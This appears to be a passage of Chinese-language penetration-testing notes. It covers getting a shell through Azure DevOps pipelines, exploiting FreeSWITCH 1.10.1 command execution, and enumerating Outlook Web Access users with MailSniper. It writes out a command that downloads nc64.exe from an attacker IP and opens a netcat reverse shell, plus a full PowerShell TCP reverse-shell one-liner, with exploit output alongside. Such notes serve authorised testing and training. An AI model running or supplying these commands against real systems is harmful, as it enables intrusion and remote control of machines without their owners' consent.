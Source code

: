 ```powershell
/c powershell iwr -Uri 10.10.14.50/nc64.exe -OutFile C:\programdata\n.exe
/c C:\programdata\n.exe -e cmd 10.10.14.50 2233
```


**利用 Azure DevOps 的其他管道相关任务获得 shell [适用于已经获得 shell 后的权限提升]**
Pipelines > Builds  > New pipeline
选择 `Use the classic editor` 
选择自己创建的分支，然后点击继续
选择 Empty pipeline > Apply
Agent pool 填写 Manage 中的 Pool , 一般是 Setup
![](photos/Pasted%20image%2020240505235854.png)
填写后点击 `+` , 搜索 powershell > Add
Script Path 填写 nishang 的 Invoke-PowerShellTcpOneLine.ps1
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.50',2233);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
先上传文件，建立监听，然后点击 `Save & queue` , 获得 rev shell


### FreeSwitch
凭据配置文件位置：
```
/etc/freeswitch/autoload_configs/event_socket.conf.xml
```

**FreeSWITCH 1.10.1 - Command Execution**
https://www.exploit-db.com/exploits/47799
可能需要修改密码来利用漏洞
```bash
└─$ python exp.py 192.168.218.240 'id&&which nc'
Authenticated
Content-Type: api/response
Content-Length: 75

uid=998(freeswitch) gid=998(freeswitch) groups=998(freeswitch)
/usr/bin/nc
```


### outlook Web (Office 365, Exchange)
https://github.com/dafthack/MailSniper
```powershell
ipmo C:\Tools\MailSniper\MailSniper.ps1
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io  (枚举目标域的 NetBIOS 名称)
访问域搜寻信息
```

验证用户名有效性，配合 namemash.py (不知道邮箱格式的情况下)
https://gist.github.com/superkojiman/11076951
```bash
~/namemash.py names.txt > possible.txt
```
